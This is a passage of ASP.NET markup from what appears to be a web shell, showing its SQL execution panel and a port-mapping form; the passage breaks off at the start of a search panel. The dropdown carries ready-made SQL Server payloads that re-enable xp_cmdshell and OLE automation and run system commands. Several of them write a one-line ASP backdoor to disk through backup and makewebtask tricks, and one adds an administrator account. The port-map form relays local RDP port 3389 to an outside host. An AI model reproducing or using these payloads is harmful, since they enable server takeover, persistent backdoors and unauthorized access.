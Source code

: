 SQLExec : <asp:DropDownList runat="server" ID="FGEy" AutoPostBack="True" OnSelectedIndexChanged="zOVO" CssClass="list"><asp:ListItem Value="">-- SQL Server Exec --</asp:ListItem><asp:ListItem Value="Use master dbcc addextendedproc('xp_cmdshell','xplog70.dll')">Add xp_cmdshell</asp:ListItem><asp:ListItem Value="Use master dbcc addextendedproc('sp_OACreate','odsole70.dll')">Add sp_oacreate</asp:ListItem><asp:ListItem Value="Exec sp_configure 'show advanced options',1;RECONFIGURE;EXEC sp_configure 'xp_cmdshell',1;RECONFIGURE;">Add xp_cmdshell(SQL2005)</asp:ListItem><asp:ListItem Value="Exec sp_configure 'show advanced options',1;RECONFIGURE;exec sp_configure 'Ole Automation Procedures',1;RECONFIGURE;">Add sp_oacreate(SQL2005)</asp:ListItem><asp:ListItem Value="Exec sp_configure 'show advanced options',1;RECONFIGURE;exec sp_configure 'Web Assistant Procedures',1;RECONFIGURE;">Add makewebtask(SQL2005)</asp:ListItem><asp:ListItem Value="Exec sp_configure 'show advanced options',1;RECONFIGURE;exec sp_configure 'Ad Hoc Distributed Queries',1;RECONFIGURE;">Add openrowset/opendatasource(SQL2005)</asp:ListItem><asp:ListItem Value="Exec master.dbo.xp_cmdshell 'net user'">XP_cmdshell exec</asp:ListItem><asp:ListItem Value="EXEC MASTER..XP_dirtree 'c:\',1,1">XP_dirtree</asp:ListItem><asp:ListItem Value="Declare @s int;exec sp_oacreate 'wscript.shell',@s out;Exec SP_OAMethod @s,'run',NULL,'cmd.exe /c echo ^&lt;%execute(request(char(35)))%^>>c:\bin.asp';">SP_oamethod exec</asp:ListItem><asp:ListItem Value="sp_makewebtask @outputfile='c:\bin.asp',@charset=gb2312,@query='select ''&lt;%execute(request(chr(35)))%&gt;'''">SP_makewebtask make file</asp:ListItem><asp:ListItem Value="exec master..xp_regwrite 'HKEY_LOCAL_MACHINE','SOFTWARE\Microsoft\Jet\4.0\Engines','SandBoxMode','REG_DWORD',1;select * from openrowset('microsoft.jet.oledb.4.0',';database=c:\windows\system32\ias\ias.mdb','select shell(&#34;cmd.exe /c net user root root/add &#34;)')">SandBox</asp:ListItem><asp:ListItem Value="create table [bin_cmd]([cmd] [image]);declare @a sysname,@s nvarchar(4000)select @a=db_name(),@s=0x62696E backup log @a to disk=@s;insert into [bin_cmd](cmd)values('&lt;%execute(request(chr(35)))%&gt;');declare @b sysname,@t nvarchar(4000)select @b=db_name(),@t='e:\1.asp' backup log @b to disk=@t with init,no_truncate;drop table [bin_cmd];">LogBackup</asp:ListItem><asp:ListItem Value="create table [bin_cmd]([cmd] [image]);declare @a sysname,@s nvarchar(4000)select @a=db_name(),@s=0x62696E backup database @a to disk=@s;insert into [bin_cmd](cmd)values('&lt;%execute(request(chr(35)))%&gt;');declare @b sysname,@t nvarchar(4000)select @b=db_name(),@t='c:\bin.asp' backup database @b to disk=@t WITH DIFFERENTIAL,FORMAT;drop table [bin_cmd];">DatabaseBackup</asp:ListItem></asp:DropDownList>
</div>
<table width="200" border="0" cellpadding="0" cellspacing="0"><tr><td> Run SQL </td></tr><tr><td><textarea id="jHIy" class="area" style="width:600px;height:60px;overflow:auto;" runat="server" rows="6" cols="1"></textarea></td></tr><tr><td>
<asp:Button runat="server" ID="WOhJ" CssClass="bt" Text="Query" onclick="ORUgV"/></td></tr></table>
<div style="overflow-x:auto;width:950px" >
<p>
<asp:DataGrid runat="server" ID="rom" HeaderStyle-CssClass="head" BorderWidth="0" GridLines="None" ></asp:DataGrid>
</p>
</div>
</div>
</div>
<%--PortMap--%>
<div id="hOWTm" runat="server">
<table width="100%" border="0" cellpadding="4" cellspacing="0" style="margin:10px 0;">
<tr align="center">
<td style="width:5%"></td>
<td style="width:20%" align="left">Local Ip : <input class="input" runat="server" id="eEpm" type="text" size="20" value="127.0.0.1"/></td>
<td style="width:20%" align="left">Local Port : <input class="input" runat="server" id="iXdh" type="text" size="20" value="3389"/></td>
<td style="width:20%" align="left">Remote Ip : <input class="input" runat="server" id="llH" type="text" size="20" value="www.rootkit.net.cn"/></td>
<td style="width:20%" align="left">Remote Port : <input class="input" runat="server" id="ZHS" type="text" size="20" value="80"/></td></tr>
<tr align="center"><td colspan="5"><br/><asp:Button ID="FJE" CssClass="bt" runat="server" Text="MapPort" OnClick="wDZ"/> <asp:Button ID="giX" CssClass="bt" runat="server" Text="ClearAll" OnClick="vJNsE"/> <asp:Button ID="GFsm" CssClass="bt" runat="server" Text="Refresh" OnClick="tYoZ"/></td></tr></table></div>
<%--Search--%>
<div id="yhv" runat="server">
<table width="100%" border="0" cellpadding="4" cellspacing="0" style="margin:10px 0;">
<tr align="center">
<td style="width:20%" align="left">Keyword</td>